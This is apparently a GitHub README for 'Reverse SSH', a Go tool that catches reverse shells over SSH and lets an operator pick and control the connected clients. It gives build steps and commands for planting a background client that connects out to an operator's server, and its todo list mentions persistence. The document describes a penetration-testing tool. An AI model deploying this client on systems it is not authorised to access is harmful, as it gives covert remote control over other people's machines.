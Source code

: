 # Reverse SSH
By far one of the stupidest things I've been thinking of for a while. Have an ssh client connect to a server, and then provide the server the ability to control the client


Essentially works like any reverse shell muliplexer thing. Only fun thing here is that everything uses SSH.   

You, the human client connect to the reverse shell catcher with ssh, and then select which remote host you want to connect to. 

```
                    +----------------+                 +---------+
                    |                |                 |         |
                    |                |       +---------+ Shelled |
                    |    Reverse     |       |         |  Client |
                    |  Connection    |       |         |         |
                    |    Catcher     |       |         +---------+
+---------+         |                |       |
|         |         |                |       |
| Human   |         |                |  SSH  |         +---------+
| Client  +-------->+                <-----------------+         |
|         |         |                |       |         | Shelled |
+---------+         |                |       |         |  Client |
                    |                |       |         |         |
                    |                |       |         +---------+
                    |                |       |
                    |                |       |
                    +----------------+       |         +---------+
                                             |         |         |
                                             |         | Shelled |
                                             +---------+  Client |
                                                       |         |
                                                       +---------+
```
## How to use

Depending on the platform, you're building the server and client for. You may need to change the GOOS and GOARCH enviroment variables. E.g building for linux:
```
GOOS=linux GOARCH=amd64 make
```

The server will automatically generate a private key on first use. Or you can specify one with `--key`. And you will need to create an `authorized_keys` file, containing *Your* public key. 
This will allow the server to authenticate you, to allow you to control whatever reverse shell connections it catches. 
```
cp ~/.ssh/id_ed25519.pub authorized_keys
./server 0.0.0.0:3232 #Set the server to listen on port 3232
```

Put the client binary on whatever you want to control. 
```
./client yourserver.com:3232
```

This will cause the client to fork into the background. If you want to montior the output for debugging purposes specify `--foreground`.  
The client will attempt to detect shells such as bash, ash, sh and execute one of those if possible. If it cant find one. Then you will be asked to enter in a path.

Then connect to your server:

```
ssh yourserver.com:3232
```

You will be presented by a list of controllable clients, e.g:
```
Connected controllable clients:                                                                                            e43bdff83d71a8a70e2c89fc27334e18722acaa1b600feb01c836351967bc258@127.0.0.1:55526, client version: SSH-2.0-Go
>
```

Use `help` or press `tab` to view commands.  
Tab will auto complete entries. 
So you you wanted to connect to the client given in the example: 
```
> connect 4<TAB>
```
Will auto complete the entry for you and on enter will connect you to your reverse shell. 


## Limitations

This doesnt work entirely correctly for windows programs, due to limitations of the windows platform. But you can still run commands. 
ALthough they might not end properly, or be ctrl+c-able

## Todo

- ~~Make the selection UI a bit better~~
- ~~Handle IO errors better in all parties~~
- ~~Remove remote connection host from list when a disconnection is registered~~
- ~~Make the client cleanly fork itself from whatever parent it started from, giving it persistence (might be hard in go)~~
- ~~direct-tcp port forwarding to select hosts~~
- ~~Client reconnect on loss of connection~~
- ~~Add authentication bits and bobs~~
- Ensure threadsafety of key structures
- ~~Fix the passing of enviroment variables such as TERM~~
